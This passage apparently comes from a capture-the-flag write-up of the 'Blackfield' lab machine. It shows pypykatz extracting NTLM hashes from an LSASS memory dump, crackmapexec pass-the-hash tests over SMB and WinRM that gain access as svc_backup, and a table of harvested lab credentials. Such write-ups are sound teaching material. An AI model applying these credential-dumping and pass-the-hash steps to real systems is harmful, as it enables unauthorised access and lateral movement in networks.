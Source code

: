 With the lsass dump file, we can run pypykatz to try to extract the secrets from the file.

```bash
$ pypykatz lsa minidump --grep lsass.DMP | grep -i -e ':BLACKFIELD:'
...
msv:BLACKFIELD:svc_backup:9658d1d1dcd9250115e2205d9f48400d::463c13a9a31fc3252c68ba0a44f0221626a33e5c::::
msv:BLACKFIELD:Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62::db5c89a961644f0978b4b69a4d2a2239d7886368::::
...
```

We can use crakmapexec to test if the hashes are valid.

```bash
$ crackmapexec smb 10.10.10.192 -u 'administrator' -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62

SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE
```

`Administrator` credentials seems to be invalid.

```bash
$ crackmapexec smb 10.10.10.192 -u 'svc_backup' -H 9658d1d1dcd9250115e2205d9f48400d   

SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d 
```

`svc_backup` works.

We can add this credential to our collection.

| username | password | hash |
| --- | --- | --- |
| support | #00^BlackKnight | --- |
| audit2020 | P@ssw0rd! | --- |
| svc_backup | --- | 9658d1d1dcd9250115e2205d9f48400d |

If we test WinRM we get access.

```bash
$ crackmapexec winrm 10.10.10.192 -u 'svc_backup' -H 9658d1d1dcd9250115e2205d9f48400d 

SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```
